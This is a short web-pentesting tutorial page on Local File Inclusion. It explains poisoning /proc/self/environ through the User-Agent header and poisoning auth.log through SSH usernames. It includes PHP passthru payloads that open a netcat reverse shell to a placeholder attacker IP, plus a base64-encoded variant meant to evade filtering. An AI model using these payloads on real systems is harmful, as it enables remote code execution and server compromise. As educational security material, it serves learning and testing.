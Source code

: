 ```yaml
---
title: LFI attack - Local File Inclusion
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web pentesting
---
```


# LFI attack - Local File Inclusion

## Tools and payloads 

- See updated chart: [Attacks and tools for web pentesting](index-attacks-tools-web-pentesting.md).


## Interesting files

### /proc/self/environ 

This files contain Environment variables. One of those variables might be HTTP_USER_AGENT, which is the user agent used by the client to access the server. So by using a  proxy interceptor  we could modify that header to be, let's say:

```
<?phpinfo()>
```

![Local file inclusion](img/lfi-1.png)


When it comes to get a shell here, we need to use PHP function passthru, which is similar to the exec command:

passthru — Execute an external program and display raw output

In this case, we would be adding in the user agent header the reverse shell:

```
<?passthru("nc -e /bin/sh <attacker IP> <attacker port>") ?> 
```

### /var/log/auth.log  or /var/log/apache2/access.log

If  we have the ability to read a log file, then we can see if we can write in them in a malicious way.

For instance, with /var/log/auth.log, we can try an ssh connection and see how these attemps are recorded on the file. Then, instead of using a real username, I can set some php code:


```
ssh "<?passthru('nc -e /bin/sh <attacker IP> <attacker port>');?>"@<TARGETIP> 
```

But there might be problems with blank spaces, slashes and so on, so one thing you can do is base64 encoded your netcat command, and tell the function to decode it before executing it  

```
# base64 encode your netcat command: nc -e /bin/sh <attacker IP> <attacker port>
ssh "<?passthru(base64_decode'<base64 encoded text>');?>"@<TARGETIP> 
```

Now just get a netcat listener in your kali attacker machine.